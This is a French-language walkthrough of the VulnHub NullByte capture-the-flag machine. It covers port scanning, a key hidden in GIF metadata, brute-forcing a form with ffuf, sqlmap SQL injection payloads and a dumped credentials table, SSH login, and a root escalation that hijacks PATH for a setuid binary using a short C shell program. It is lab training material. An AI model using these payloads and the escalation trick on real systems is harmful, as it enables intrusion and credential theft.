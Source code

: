 # Solution du CTF NullByte de VulnHub

[NullByte](https://vulnhub.com/entry/nullbyte-1,126/) est un CTF proposé sur VulnHub et datant du mois d'aout 2015. Il est plutôt simple mais attention le début est *un peu* orienté stéganographie ce qui peu dérouter les participants.

```
Nmap scan report for 192.168.56.93
Host is up (0.0012s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Null Byte 00 - level 1
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          45635/udp6  status
|   100024  1          46283/tcp6  status
|   100024  1          50378/udp   status
|_  100024  1          55523/tcp   status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
55523/tcp open  status  1 (RPC #100024)
```

Sur la page d'index juste une image GIF. On lé télécharge et on lance `exiftool` dessus :

```
$ exiftool main.gif 
ExifTool Version Number         : 12.50
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

Le commentaire sur l'image correspond à un nom de dossier sur le serveur web. On y trouve un formulaire qui demande une clé, visiblement il n'y a pas de backend derrière, la solution doit être hardcodée :

```html
<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form> 
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

Par conséquent on peut se permettre de bourriner pour trouver cette clé :

```bash
$ ffuf -u "http://192.168.56.93/kzMb5nVYJw/index.php" -w wordlists/rockyou.txt -X POST -d "key=FUZZ" -H "Content-type: application/x-www-form-urlencoded" -fs 244

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.93/kzMb5nVYJw/index.php
 :: Wordlist         : FUZZ: wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : key=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 244
________________________________________________

elite                   [Status: 200, Size: 145, Words: 9, Lines: 7]
```

Ce mot de passe tombe assez rapidement. Quand on le saisit on parvient sur un script PHP auquel on peut passer un nom d'utilisateur :

http://192.168.56.93/kzMb5nVYJw/420search.php?usrtosearch=yoyo

Le script indique juste :

> Fetched data successfully

J'ai d'abord pensé à un SSRF puisque 420 fait penser à un code HTTP mais si on place une apostrophe on obtient une erreur SQL.

On passe l'URL à `sqlmap` qui n'en fait qu'une bouchée :

```
---
Parameter: usrtosearch (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: usrtosearch=yoyo" OR NOT 1289=1289-- SoOq

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: usrtosearch=yoyo" AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162716a71,(SELECT (ELT(8532=8532,1))),0x716b7a7671,0x78))s), 8446744073709551610, 8446744073709551610)))-- sYSg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usrtosearch=yoyo" AND (SELECT 9187 FROM (SELECT(SLEEP(5)))kiRz)-- BroV

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: usrtosearch=yoyo" UNION ALL SELECT CONCAT(0x7162716a71,0x4a6f4b4a766e58634f566e4f6c774e66584948715273724957686147764c687863414f6e7a434e42,0x716b7a7671),NULL,NULL-- -
---
```

En rajoutant les options de dump habituelles j'obtiens des identifiants dans `seth.users` :

```
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Le base64 se décode avec un warning en `omega`. Les identifiants `ramses` / `omega` permettent de se connecter en SSH sur le port 777.

Sous `/var/www` je trouve un dossier `backup` contenant un binaire setuid root :

```bash
ramses@NullByte:/var/www/backup$ ls
total 20K
drwxrwxrwx 2 root root 4.0K Aug  2  2015 .
drwxr-xr-x 4 root root 4.0K Aug  2  2015 ..
-rwsr-xr-x 1 root root 4.9K Aug  2  2015 procwatch
-rw-r--r-- 1 root root   28 Aug  2  2015 readme.txt
ramses@NullByte:/var/www/backup$ cat readme.txt 
I have to fix this mess...
```

Le binaire est très simple, il appelle juste la commande `ps` via `system()` qui est sujet aux altérations de l'environnement.

```nasm
int main (int argc, char **argv, char **envp);
; var const char *string @ ebp-0x3a
; var int32_t var_4h @ ebp-0x4
; arg char **argv @ esp+0x64
0x080483fb      lea     ecx, [argv]
0x080483ff      and     esp, 0xfffffff0
0x08048402      push    dword [ecx - 4]
0x08048405      push    ebp
0x08048406      mov     ebp, esp
0x08048408      push    ecx
0x08048409      sub     esp, 0x44
0x0804840c      lea     eax, [string]
0x0804840f      mov     word [eax], 0x7370 ; 'ps'
0x08048414      mov     byte [eax + 2], 0
0x08048418      sub     esp, 0xc
0x0804841b      lea     eax, [string]
0x0804841e      push    eax        ; const char *string
0x0804841f      call    system     ; sym.imp.system ; int system(const char *string)
0x08048424      add     esp, 0x10
0x08048427      mov     eax, 0
0x0804842c      mov     ecx, dword [var_4h]
0x0804842f      leave
0x08048430      lea     esp, [ecx - 4]
0x08048433      ret
```

Je compile un petit programme sous le nom `ps` qui va fixer mes uids effectif et réel à 0 puis je modifie le PATH pour que mon programme ait la priorité :

```bash
$ ramses@NullByte:/var/www/backup$ cat getroot.c 
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/dash");
        return 0;
}
ramses@NullByte:/var/www/backup$ gcc -o ps getroot.c 
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ./procwatch 
# id
uid=0(root) gid=1002(ramses) groups=1002(ramses)
# cd /root
# ls
proof.txt
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```

*Publié le 3 janvier 2023*
